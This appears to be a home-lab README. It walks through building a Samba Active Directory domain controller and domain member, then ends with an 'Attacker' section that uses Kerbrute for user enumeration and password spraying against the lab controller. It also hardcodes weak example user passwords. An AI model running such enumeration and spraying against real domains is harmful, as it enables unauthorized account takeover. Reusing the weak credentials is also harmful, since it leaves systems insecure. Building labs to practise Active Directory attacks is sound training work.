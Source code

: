 # Samba

## Domain Controller

1. Set up the hostname:
	```bash
	hostnamectl set-hostname dc1
	```

2. Add the following line in the `/etc/hosts` file: 
		`192.168.122.10 dc1.polaris.org dc1`

3. Change to a static IP address in `/etc/netplan/50-cloud-init.yaml`:  
    ```
    addresses: [192.168.122.10/24]
    gateway4: 192.168.122.1
    nameservers:
    	addresses: [192.168.122.10, 8.8.8.8]
     ```
4. Save the changes:
    ```bash
    sudo netplan apply
    ```

5. Follow the installation from the Samba documentation:
     ```bash
    sudo -s
    wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	/usr/local/samba/bin/samba-tool domain provision --use-rfc2307 --interactive
	```
	Add the lines to the `etc/resolv.conf` file:  
	
        search polaris.org
        nameserver 192.168.122.10
	  
	```bash
	systemctl disable --now systemd-resolved.service
	cp /usr/local/samba/private/krb5.conf /etc/krb5.conf
	# Start samba:
 	/usr/local/samba/sbin/samba
	```

6. Added aditional users to the domain:
   ```bash
	/usr/local/samba/bin/samba-tool user create Alice Alice1234
	/usr/local/samba/bin/samba-tool user create Bob Apolo1969
   ```

## Testing configuration

### Verifying the File Server
1.  `/usr/local/samba/bin/smbclient -L localhost -N`
2. `/usr/local/samba/bin/smbclient //localhost/netlogon -UAdministrator -c 'ls'`

### Verifying DNS

1. `host -t SRV _ldap._tcp.polaris.org.`
2. `host -t SRV _kerberos._udp.polaris.org.`
3. `host -t A dc1.polaris.org.`

### Verifying Kerberos

1. `kinit administrator`
2. `klist`

## Domain Member

1. Set the DNS server IP and AD DNS domain in the `/etc/resolv.conf`:

		nameserver 192.168.122.10
		search polaris.org
2. To configure Kerberos on the domain member, set the following in the `/etc/krb5.conf` file:

        [libdefaults]
            		default_realm = POLARIS.ORG
            		dns_lookup_realm = false
            		dns_lookup_kdc = true

3. Follow the installation from the Samba documentation:
     ```bash
	sudo -s
	wget https://download.samba.org/pub/samba/stable/samba-4.18.5.tar.gz
    tar xf samba-4.18.5.tar.gz
	cd samba-4.18.5/bootstrap/generated-dists/ubuntu1804
	./bootstrap.sh
	cd ../../..
	./configure
	make
	sudo make install
	 ```
4. Configuring the `autorid` Back End:

		[global]
		       security = ADS
		       workgroup = POLARIS
		       realm = POLARIS.ORG

		       log file = /var/log/samba/%m.log
		       log level = 1

		       template shell = /bin/bash
			   template homedir = /home/%U

		       # Default ID mapping configuration using the autorid
		       # idmap backend. This will work out of the box for simple setups
		       # as well as complex setups with trusted domains.
		       # NOTE: You cannot and must not use 'winbind use default domain = yes'
		       #       with the autorid idmap backend. This means that your users
		       #       will need to login using the format 'DOMAIN\username'.
		       #       If you want your users to login just using 'username' then
		       #       you cannot use the 'autorid' idmap backend.
		       idmap config * : backend = autorid
		       idmap config * : range = 10000-24999999

5. Reload the Samba configuration:

        /usr/local/samba/bin/smbcontrol all reload-config

6. Map the domain accounts to a local account to execute file operations on the domain member's file system as a different user than the account that requested the operation on the client:

    * Add the following parameter to the `[global]` section of your smb.conf file:
    
    		username map = /usr/local/samba/etc/user.map
    * Create the `/usr/local/samba/etc/user.map` file with the following content:
    
    		!root = POLARIS\Administrator

7. To join the host to an Active Directory (AD), enter:

		/usr/local/samba/bin/net ads join -U administrator

		OR

		/usr/local/samba/bin/samba-tool domain join samdom.example.com MEMBER -U administrator

8. Start the `smbd`, `nmbd` and `winbindd`  services to have a fully functioning Unix domain member:

    **[Note]:** If you do not require Network Browsing, you do not need to start the `nmbd` service on a Unix domain member.

   ```
   /usr/local/samba/sbin/smbd
   /usr/local/samba/sbin/winbindd
   /usr/local/samba/sbin/nmbd
   ```
        
## Testing configuration

### Verifying DNS resolution

1. `nslookup dc1.polaris.org`
2. `host dc1.polaris.org`


### Resolving SRV Records
1.   
	    $ nslookup  
	    > set type=SRV  
	    > _ldap._tcp.polaris.org
    
2. `host -t SRV _ldap._tcp.polaris.org`


### Verifying the Winbindd Connectivity

1. `/usr/local/samba/bin/wbinfo --ping-dc`

## Attacker

### Requesites  installation

1. Install Kerbrute:

		wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64

2. Rename the the binary downloaded:

		mv kerbrute_linux_amd64 kerbrute

3. Give executable permissions to kerbrute:

		chmod +x kerbrute	


### User Enumeration
1. Enumerate the users in the Active Directory Domain Controller using a users list

        ./kerbrute userenum -d polaris.org users.txt --dc 192.168.122.10

### Password Spraying
1. Perform an horizontal brute force attack against a list of domain users. This is useful for testing one or two common passwords when you have a large list of users. 

        ./kerbrute passwordspray -d polaris.org valid_users.txt --dc 192.168.122.10 Passw0rd
